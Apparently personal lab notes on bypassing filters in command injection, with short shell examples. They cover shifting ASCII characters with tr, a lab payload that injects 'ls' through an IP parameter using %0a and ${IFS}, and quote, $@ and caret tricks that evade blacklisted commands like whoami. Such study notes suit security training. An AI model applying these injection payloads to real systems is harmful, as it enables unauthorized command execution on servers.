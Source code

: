 *We can also use the `Get-ChildItem Env:` PowerShell command to print all environment variables and then pick one of them to produce a character we need.*

### Character Shifting
```Shell
man ascii     # \ is on 92, before it is [ on 91
echo $(tr '!-}' '"-~'<<<[)

\
```
Shifts the character we pass by `1`. Find the character in the ASCII table that is just before our needed character, then add it instead of `[`
![[ascii shift 1.png]]

```Shell
echo $(tr '!-}' '"-~'<<<:)

;
```
Shifts the character we pass by `1`. Find the character in the ASCII table that is just before our needed character, then add it instead of `:`
![[ascii shift 2.png]]

***LAB:*
![[Other Bypasses.png]]
`ip=127.0.0.1%0a${IFS}ls${IFS}${PATH:0:1}home`

### Bypassing Blacklisted Commands

#### Bypassing with Quotation Marks
```Shell
w'h'o'am'i
```

```Shell
w"h"o"am"i
```
***We cannot mix types of quotes and the number of quotes must be even***

#### Bypassing for Linux Only
- `\`
- `$@`

```Shell
who$@ami
```
The number of characters do not have to be even

#### Bypassing for Windows Only
```cmd.exe
who^ami
```
`^` can bypass the filter
